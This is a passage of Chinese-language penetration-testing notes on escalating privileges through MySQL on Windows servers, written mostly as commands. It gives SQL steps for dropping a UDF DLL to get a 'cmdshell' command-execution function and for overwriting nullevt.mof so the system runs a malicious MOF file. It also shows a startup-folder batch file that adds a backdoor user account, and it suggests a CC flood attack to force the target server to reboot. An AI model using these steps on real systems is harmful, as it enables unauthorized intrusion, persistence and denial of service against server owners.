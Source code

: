 ```bash
# 利用自定义执行函数导出dll文件进行命令执行
select version();
select user();   # 获取数据库用户
select @@basedir;  # 安装目录
show variables like '%plugins%';  # 寻找mysql安装路径 

# 手工创建或利用NTFS流创建 plugin目录(如下) 
select 'x' into dumpfile '......mysql/lib/plugin::INDEX_ALLOCATION';

# Note：
1.mysql<5.1 一般导出dll到目录c:/windows/system32
2.mysql=>5.1 导出安装目录的/lib/plugin/   # 默认不存在，需要创建

# 1.使用脚本(最下面资源MySQL.php)进行自定义函数导出为dll就行(可能会失败)
# 2.创建一个自定义函数与dll文件对应
create function cmdshell returns string soname 'moonudf.dll'  # 创建叫cmdshell的函数
# 3.执行命令
select cmdshell('命令')	# 就可以执行命令了
# 4.添加账户密码，后续操作

```





### 2.MOF加载提权

![](http://image.xpshuai.cn/img/image-20220119190452993.png)

系统目录中的mof/目录下有mof文件，目录下面的文件会被系统调用执行。

```bash
# 将mof上传至任意可读可写目录下
# 导出自定义mof文件到系统目录加载
c:/windows/system32/wbem/mof/

# 然后使用sql语句将系统当中默认的nullevt.mof给替换为我们自定义恶意的mof文件。进而让系统执行我们这个恶意的mof文件
# 替换的sql语句：select load_file('D:\WWW\xx.mof') into dumpfile 'c:/windows/system32/wbem/mof/nullevt.mof';

```



### 3.启动项重启提权

```bash
# 启动项文件夹(开机或重启之后会自动加载的程序)
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp


#导出自定义bat或vbs到启动目录配合重启执行
将创建好的adduser.vbs或.bat文件(内容如下)进行服务器启动项写入，配合重启执行！
@echo off
net user xiaodi 123!@jqazQ /add
# 配合其他利用命令

# 怎么让服务器重启呢？
可以CC攻击流量过高, 对方服务器打不开时候，然后就会自动重启了

```
